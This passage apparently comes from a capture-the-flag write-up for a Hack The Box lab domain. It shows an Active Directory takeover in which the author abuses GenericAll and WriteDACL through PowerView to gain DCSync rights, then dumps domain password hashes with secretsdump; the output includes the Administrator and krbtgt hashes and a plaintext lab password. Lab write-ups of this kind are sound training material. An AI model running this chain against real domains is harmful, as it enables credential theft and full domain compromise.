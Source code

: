 
![Screenshot from 2025-02-15 01-09-19](https://github.com/user-attachments/assets/09e5b806-9f45-42b2-9349-ff89fe7a3eef)
we are intersted in this path beaceause is teh one taht goona give us full control on the domain.
nest group membreship gave svc-alfresco generic all on `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` so we can add a user to this group because membership in this group give us WriteDACL on the domain HTB.LOCAL using this we can grant a user or ourselves DCsync.
## Generic all
going back to the session we had on winrm, first I uploaded PowerVIew.ps1 scrit and Imported it to the session to use it.
now we can add ourselves to the EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL group, by abusing generic all right on this group.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> **Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco'**
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> **Get-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS'**


GroupDomain             : htb.local
GroupName               : Exchange Windows Permissions
GroupDistinguishedName  : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
MemberDomain            : htb.local
MemberName              : svc-alfresco
MemberDistinguishedName : CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-3072663084-364016917-1341370565-1147

GroupDomain             : htb.local
GroupName               : Exchange Windows Permissions
GroupDistinguishedName  : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
MemberDomain            : htb.local
MemberName              : Exchange Trusted Subsystem
MemberDistinguishedName : CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
MemberObjectClass       : group
MemberSID               : S-1-5-21-3072663084-364016917-1341370565-1119
```
we succesefully added svc-alfresco to the group.
## WriteDACL
With write access to the target object's DACL, you can grant yourself any privilege you want on the object.
To abuse WriteDacl to a domain object, you may grant yourself DCSync privileges.
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> **Add-DomainObjectAcl -TargetIdentity htb.local -Rights DCSync**
```
## DCSync
now we can dump hashe of the entire users of the domain including `Administrator` by getting the Administrator hash we can say that we have abused the entire domain.
```bash
**secretsdump.py svc-alfresco:s3rvice@10.10.10.161**
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```